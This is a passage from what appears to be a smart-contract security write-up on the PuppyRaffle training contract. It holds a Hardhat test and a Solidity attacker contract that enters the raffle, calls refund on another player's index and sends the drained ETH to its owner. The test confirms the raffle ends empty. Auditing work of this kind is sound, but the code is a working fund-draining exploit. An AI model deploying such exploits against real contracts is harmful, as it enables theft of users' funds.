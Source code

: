 ```javascript
				aUser.address,
				'0xF43FC2C04EE0000', // 1.1 ETH
			]);

			await puppyRaffle.connect(aUser).enterRaffle([aUser.address], { value: parseEther('1') });
		}

		initialPuppyRaffleBalance = +formatEther(await provider.getBalance(puppyRaffle.target));
		initialAttackerBalance = +formatEther(await provider.getBalance(attacker.address));

		const attackerContract = await deployContract('PuppyRaffleAttacker', [puppyRaffle.target], attacker);

		await attacker.sendTransaction({
			to: attackerContract.target,
			value: parseEther('1'),
		});
		await attackerContract.attack();

		// we have all the assets
		expect(+formatEther(await provider.getBalance(attacker.address))).is.gt(initialAttackerBalance + 20 - 0.1);
		// puppyRaffle has none, bye-bye puppies lol
		expect(await provider.getBalance(puppyRaffle.target)).equals(0);
	});
});

```
And the attacker contract code:
```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.6;

import "@openzeppelin/contracts/access/Ownable.sol";
import "hardhat/console.sol";

interface IPuppyRaffle {
	function refund(uint256 playerIndex) external;

	function enterRaffle(address[] memory newPlayers) external payable;

	function getActivePlayerIndex(address player) external view returns (uint256);
}

contract PuppyRaffleAttacker is Ownable {
	IPuppyRaffle puppyRaffle;

	constructor(address _puppyRaffle) {
		puppyRaffle = IPuppyRaffle(_puppyRaffle);
	}

	function attack() external onlyOwner {
		address[] memory players = new address[](1);
		players[0] = address(this);

		puppyRaffle.enterRaffle{ value: 1 ether }(players);
		puppyRaffle.refund(20);

		(bool sent, ) = owner().call{ value: address(this).balance }("");
		require(sent, "Failed to send ETH to the owner");
	}

```
